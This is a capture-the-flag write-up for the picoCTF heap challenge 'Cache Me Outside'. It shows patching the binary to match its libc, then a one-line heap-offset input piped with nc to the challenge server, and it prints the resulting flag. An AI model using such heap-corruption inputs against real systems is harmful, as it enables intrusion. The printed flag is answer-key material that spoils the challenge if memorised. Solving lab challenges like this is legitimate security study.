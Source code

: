 # Cache Me Outside
## Description
While being super relevant with my meme references, I wrote a program to see how much you understand heap allocations. `nc mercury.picoctf.net 10097` heapedit Makefile libc.so.6
> 70 points

## Hint
It may be helpful to read a little bit on GLIBC's tcache.


```console
┌──(kali㉿kali)-[~/workspace/picoctf/cache]
└─$ ./heapedit 
zsh: segmentation fault  ./heapedit

```
provided the `libc.so.6`
```console
┌──(kali㉿kali)-[~/workspace/picoctf/cache]
└─$ ls
heapedit  libc.so.6  Makefile
                                                                                                                                            
┌──(kali㉿kali)-[~/workspace/picoctf/cache]
└─$ ./heapedit
Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!
```

```console
┌──(kali㉿kali)-[~/workspace/picoctf/cache]
└─$ strings libc.so.6 | grep version 
versionsort64
versionsort
argp_program_version_hook
gnu_get_libc_version
argp_program_version
RPC: Incompatible versions of RPC
RPC: Program/version mismatch
<malloc version="1">
Print program version
(PROGRAM ERROR) No version known!?
%s: %s; low version = %lu, high version = %lu
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1.2) stable release version 2.27.
Compiled by GNU CC version 7.5.0.
.gnu.version
.gnu.version_d
.gnu.version_r

┌──(kali㉿kali)-[~/.tools/patchelf]
└─$ sudo apt-get install autoconf
[sudo] password for kali: 
...

```

install `pathelf` [here](https://github.com/NixOS/patchelf)

    ./bootstrap.sh
    ./configure
    make
    make check
    sudo make install
    
run `pwninit`
```console
┌──(kali㉿kali)-[~/workspace/picoctf/cache]
└─$ ~/.tools/pwninit
bin: ./heapedit_patched
libc: ./libc.so.6
ld: ./ld-2.27.so

unstripping libc
https://launchpad.net/ubuntu/+archive/primary/+files//libc6-dbg_2.27-3ubuntu1.2_amd64.deb                                                 
warning: failed unstripping libc: failed running eu-unstrip, please install elfutils: No such file or directory (os error 2)              
copying ./heapedit_patched to ./heapedit_patched_patched
running patchelf on ./heapedit_patched_patched
writing solve.py stub
....

┌──(kali㉿kali)-[~/workspace/picoctf/cache]
└─$ ls
heapedit          ld-2.27.so  Makefile
heapedit_patched  libc.so.6   solve.py

┌──(kali㉿kali)-[~/workspace/picoctf/cache]
└─$  { echo "-5144"; printf "\x00";} | nc mercury.picoctf.net 10097 
You may edit one byte in the program.
Address: Value: lag is: picoCTF{97c85bbf2168f674263a1c5629b411a3}

```

> picoCTF{97c85bbf2168f674263a1c5629b411a3}

